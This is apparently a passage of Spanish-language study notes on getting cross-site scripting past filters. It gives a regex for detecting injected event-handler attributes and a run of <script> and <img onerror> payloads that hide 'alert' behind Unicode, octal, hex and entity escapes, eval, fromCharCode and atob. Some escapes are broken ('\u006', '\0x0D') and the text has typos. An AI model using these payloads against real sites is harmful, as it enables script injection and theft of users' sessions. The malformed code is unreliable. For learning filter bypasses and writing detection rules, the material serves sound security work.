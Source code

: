 Los navegadores están en continua evolución; Por lo tanto, algunos de los chars permitidos pueden no funcionar más. Así, Shazzer Fuzz DB ha creado dos pruebas de fuzzer:

→ http://shazzer.co.uk/vector/Characters-allowed-after-attribute-name

→ http://shazzer.co.uk/vector/Characters-allowed-before-attribute-name

A los datos, una norma de regex válida debe ser la siguiente:

```js
(?i)([\s\"'`;\/0-9\=\x00\x09\x0A\x0C\0x0D\x3B\x2C\x28\x3B]+on\w+[\s\x00\x09\x0A\x0C\0x0D\x3B\x2C\x28\x3B]*?=)
```

## Keyword Based Filters

Hay filtros enfocados en prevenir el modo de scripting como **alerta, javascript, eval**

### Char Escaping

Aquí vemos Unicode Escaping sin usar funciones nativas:

```js
<script>\u0061lert(1)</script>
<script>\u0061\u006\u0065\u0072\u0074(1)</script>
```

Unicode escapando usando funciones nativas. Eval es sólo uno de muchos:

```js
<script>eval("\u0061lert(1)")</script>
<script>eval("\u0061\u006\u0065\u0072\u0074\u0028\u0031\u0029")</script>
```

Si el vector filtrado está dentro de una cadena, además de Unicode, hay múltiples escapses que podemos adoptar:

```js
<img src=x onerror="\u0061lert(1)"/>
<img src=x onerror="eval('\141lert(1)')"/>     # octal escape
<img src=x onerror="eval('\x61lert(1)')"/>     # hexa escape

<img src=x onerror="eval('&#x0061;lert(1)')"/> # hexa numeric char reference
<img src=x onerror="eval('&#97;lert(1)')"/>    # decimal NCR
<img src=x onerror="eval('\a\l\ert(1\)')"/>    # superfluous escapes chars

<img src=x onerror="eval('\u0065val('\141\u006c&#101;&#x0072t\(&#49)')"/>  '
# All chars escaping can stay together.
```

### Contructing String

Javascript jas several functions useful to create string:

```js
/ale/.source+/rt/.source
String.fromCharCode(97,108,101,114,116)
atob("YWxlcnQ=")
177985081..toString(36)
```
